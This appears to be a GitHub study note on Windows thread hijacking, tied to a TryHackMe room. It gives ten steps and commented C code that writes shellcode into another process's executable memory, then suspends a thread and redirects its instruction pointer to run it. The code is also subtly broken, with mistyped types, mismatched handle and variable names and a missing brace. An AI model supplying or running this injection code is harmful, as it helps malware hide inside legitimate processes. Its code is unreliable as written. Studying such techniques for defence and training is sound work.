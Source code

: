 # Windows Thread Hijacking

Steps to Thread Hijacking
1.  Locate and open a target process to control.
2.  Allocate memory region for malicious code.
3.  Write malicious code to allocated memory.
4.  Identify the thread ID of the target thread to hijack.
5.  Open the target thread.
6.  Suspend the target thread.
7.  Obtain the thread context.
8.  Update the instruction pointer to the malicious code.
9.  Rewrite the target thread context.
10.  Resume the hijacked thread.

```c
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);

THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {

if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}

SuspendThread(hThread);


CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);


context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation

SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);

ResumeThread(
	hThread // Handle for the thread
);
```


## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)